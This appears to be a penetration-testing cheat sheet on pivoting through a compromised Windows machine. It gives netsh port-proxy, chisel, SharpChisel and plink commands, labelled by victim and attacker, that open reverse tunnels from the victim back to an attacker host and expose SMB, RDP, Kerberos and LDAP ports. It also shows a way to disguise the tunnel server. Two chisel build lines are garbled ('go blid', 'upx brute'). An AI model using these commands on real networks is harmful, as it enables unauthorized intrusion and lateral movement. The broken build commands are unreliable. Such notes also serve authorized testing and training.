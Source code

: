 # Pivoting in Windows

## Pivoting in Windows

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

### Tunneling/Proxying

Create a proxy type connection through a compromised machine in order to route all traffic into the targeted network.

### Port Forwarding

Create a connection between a local port and a single port on a target.



## Enumerating Network Interface Cards \(NICs\)

First, we must determine which subnets are on the operating system to do that we can enumerate the system network interface cards with DOS/Batch or PowerShell:

```text
ipconfig /all
Get-NetIPConfiguration
```

## Pivoting with netsh

[Netsh ](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts#:~:text=Netsh%20is%20a%20command%2Dline,in%20batch%20files%20or%20scripts.)is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh prompt and they can be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands.

 We can use netsh to forward ports:

1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port \(the connection is waited on it\).
3. connectaddress – is a local or remote IP address \(or DNS name\) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.

```text
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

## Pivoting with chisel

[Chisel ](https://github.com/jpillora/chisel)is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go \(golang\). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Compiling chisel locally in our host:

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Let's say that we want to forward the ports 389 and 88 through port 8008 in our host, we can do that with [chisel](https://github.com/jpillora/chisel) by doing this:

```text
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### Pivoting with SharpChisel

[SharpChisel](https://github.com/shantanu561993/SharpChisel) is a C\# wrapper for chisel:

```text
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Pivoting with plink

plink is an old networking tool that we can also use for forwarding ports:

```text
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

